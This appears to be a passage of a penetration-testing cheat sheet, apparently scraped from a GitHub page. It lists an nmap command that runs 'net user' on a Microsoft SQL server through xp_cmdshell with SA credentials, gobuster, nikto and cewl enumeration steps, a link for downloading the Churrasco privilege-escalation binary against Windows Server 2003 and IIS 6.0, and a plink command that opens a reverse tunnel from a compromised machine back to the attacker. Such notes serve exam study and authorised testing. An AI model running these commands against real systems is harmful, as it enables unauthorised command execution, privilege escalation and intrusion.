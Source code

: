      ###### go
 
 ###### nmap
 ###### nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=\<pass>,ms-sql-xp-cmdshell.cmd="net user " \<ip>

#### Http/Https
 * Service -> exploit (searchsploit + google)
 * nmap info
 * if directories from nmap output, OPTIONS request for put http method availability.
 * nikto:
   * default
   * CGI all
 * source
 * gobuster:
   * with common.txt:
     ###### gobuster dir -u [url] -w /usr/share/wordlists/dirb/common.txt -s '200,204,301,302,307,403,500' -e -t [number] -o common.results
     ###### gobuster dir -u [url] -w /usr/share/wordlists/dirb/common.txt -s '200,204,301,302,307,403,500' -e -t [number] -x .exte,.exte,.exte -o exte.common.results
   * With big.txt:
     ###### gobuster dir -u [url] -w /usr/share/wordlists/dirb/big.txt -s '200,204,301,302,307,403,500' -e -t [number] -o big.results
     ###### gobuster dir -u [url] -w /usr/share/wordlists/dirb/big.txt -s '200,204,301,302,307,403,500' -e -t [number] -x .exte,.exte,.exte -o exte.big.results
   
   * With medium.txt:
     ###### gobuster dir -u [url] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s '200,204,301,302,307,403,500' -e -t [number] -o medium.results
     ###### gobuster dir -u [url] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s '200,204,301,302,307,403,500' -e -t [number] -x .exte,.exte,.exte -o exte.medium.results
 
 * Play around with burpsuite (Spider, repeater)
 
 * if web page contains big articles qith many words use cewl:
   ##### cewl -w custom_worlist \<ip> -d \<depth>

## Exploits
### Windows
#### Churrasco
* Windows Server 2003 and IIS 6.0 privledge escalation using impersonation token (Tokens kiddnapping revenge):
* use https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
* Needs Listener 


[local_machine]: systemctl start ssh
[remote_machine]: plink.exe -l [username] -pw [password] -R [port]:127.0.0.1:[port] [ip]